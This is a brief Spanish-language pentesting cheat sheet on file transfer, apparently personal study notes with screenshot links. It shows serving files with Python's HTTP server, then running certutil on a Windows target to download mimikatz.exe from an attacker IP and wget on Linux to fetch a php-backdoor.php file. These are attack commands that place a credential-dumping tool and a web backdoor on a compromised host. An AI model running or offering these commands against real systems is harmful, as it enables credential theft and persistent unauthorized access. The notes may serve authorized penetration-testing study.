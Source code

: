 
# Crear servidor con  Python 2
```
python  -m SimpleHTTPServer 80
```
![[Pasted image 20240508135005.png]]

# Crear servidor con Python 3
```
python3 -m http.server 80
```
![[Pasted image 20240508135009.png]]


# Descargar archivo en sistema Windows
Con el servidor python ejecutandose en la carpeta donde se ubica el archivo y teniendo acceso a la otra maquina ejecutamos el siguiente comando, es aconsejable descargar todo en la carpeta temporal
```
certutil -urlcache -f http://10.10.5.2/mimikatz.exe mimikatx.exe
```
![[Pasted image 20240508140316.png]]

# Descargar archivo en sistema Linux
```
wget http://192.168.45.2/php-backdoor.php
```
![[Pasted image 20240508142159.png]]